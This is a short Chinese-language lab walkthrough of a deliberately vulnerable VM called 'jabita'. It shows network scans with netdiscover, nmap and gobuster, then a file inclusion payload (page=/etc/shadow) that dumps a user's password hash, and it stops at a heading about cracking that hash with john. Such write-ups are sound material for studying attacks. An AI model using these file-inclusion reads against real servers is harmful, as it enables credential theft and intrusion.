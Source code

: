 
|   |   |   |
|---|---|---|
|jabita|easy|文件包含利用、shadow爆破、sudo-awk 提权、python库劫持提权、python反弹shell|

# 主机发现
```C
┌──(kali㉿kali)-[~]
└─$ sudo netdiscover -i eth0 -r 192.168.44.139/24
```

# 服务探测
```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.147 
```
22,  80

# 目录扫描
```c
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.44.147 -x php,html.txt.png -e
```

```c
http://192.168.44.147/building   
在这个页面随便点个home
发现这个页面可能存在文件包含http://192.168.44.147/building/index.php?page=home.php
初次尝试得到结果
http://192.168.44.147/building/index.php?page=/etc/shadow


jaba:$y$j9T$pWlo6WbJDbnYz6qZlM87d.$CGQnSEL8aHLlBY/4Il6jFieCPzj7wk54P8K4j/xhi/1:19240:0:99999:7::: 
```
# john爆破
